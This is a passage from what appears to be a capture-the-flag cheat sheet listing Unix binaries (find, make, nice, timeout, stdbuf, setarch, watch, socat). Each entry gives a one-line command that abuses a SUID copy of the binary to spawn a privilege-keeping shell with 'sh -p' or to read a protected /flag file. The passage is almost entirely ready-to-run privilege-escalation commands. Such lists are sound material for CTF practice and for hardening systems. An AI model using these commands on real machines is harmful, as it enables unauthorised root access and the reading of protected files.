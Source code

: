 ```bash
./find . -exec sh -p \; -quit
```

### 26 - make

```bash
ctf$: COMMAND='sh -p'
./make -s --eval=$'x:\n\t-'"$COMMAND"
```

### 27 - nice

nice - run a program with modified scheduling priority

```bash
ctf$: nice sh -p
```

### 28 - timeout

timeout - run a command with a time limit

```bash
ctf$: ./timeout 7d sh -p
```

### 29 - stdbuf

stdbuf - Run COMMAND, with modified buffering operations for its
standard streams

```bash
ctf$: ./stdbuf -i0 sh -p
```

### 30 - setarch

```bash
ctf$: ./setarch $(arch) /bin/sh -p
```

### 31 - watch

watch - execute a program periodically, showing output fullscreen

```bash
ctf$: ./watch -x sh -p -c 'reset; exec sh -p 1>&0 2>&0'
```

### 32 - socat

```bash
ctf$: socat -u "file:/flag" -
```

### 33 - whiptail
